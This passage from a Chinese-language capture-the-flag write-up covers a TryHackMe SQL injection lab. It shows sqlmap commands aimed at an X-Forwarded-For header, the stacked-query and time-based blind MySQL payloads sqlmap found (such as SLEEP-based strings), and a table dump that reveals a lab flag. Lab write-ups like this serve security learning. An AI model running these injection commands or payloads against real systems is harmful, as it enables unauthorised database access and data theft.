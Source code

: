 ```
# sqlmap -u "http://10.10.X.X/user?id=1" --headers="X-forwarded-for:1*" --risk=3 --level=5 --dbms=mysql --threads 10 --dbs --time-sec=1---
Parameter: X-forwarded-for #1* ((custom) HEADER)
**Type: stacked queries**
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: 1';SELECT SLEEP(1)#**Type: time-based blind**
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: 1' AND (SELECT 5673 FROM (SELECT(SLEEP(1)))rCnJ)-- INff
---available databases [2]:
[*] information_schema
[*] **sqhell_1**
```

它的时基盲 SQL 注入类型。这可能需要一段时间，因为它是基于时间的。默认情况下`**sqlmap**`用了 2 秒。只需将命令调整为 1 秒，使其更快。现在，把所有的桌子都倒在`**sqhell_1**`里面

```
# sqlmap -u "http://10.10.X.X/user?id=1" --headers="X-forwarded-for:1*" --risk=3 --level=5 --dbms=mysql --threads 10 -D **sqhell_1** --tables --dump-all --time-sec=1Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
**| 1  | THM{FLAG2:C678ABFE1C01FCA19E039XXXXXXXXXXX} |** +----+---------------------------------------------+Database: sqhell_1
Table: hits
[0 entries]
+----+----+---------+
| id | ip | count   |
+----+----+---------+
+----+----+---------+
```

好吧！找到第二面旗帜了！..现在是 4 号！

再次参考数据库`**sqhell_4**`。当检查信息模式时，实际上有另一个表，但它没有出现在`**sqlmap**`扫描中

```
Database: information_schemaTable: INNODB_DATAFILES[34 entries]
+-----------------------------------------+------------+
| PATH                                    | SPACE      |
+-----------------------------------------+------------+
...
...
**| ./sqhell_4/flag.ibd                     | 42         |
| ./sqhell_4/posts.ibd                    | 43         |**
| ./sqhell_4/users.ibd                    | 44         |
...
...
+-----------------------------------------+------------+
```

太奇怪了😵‍💫有点难。它不会从`**sqlmap**`扫描出来。
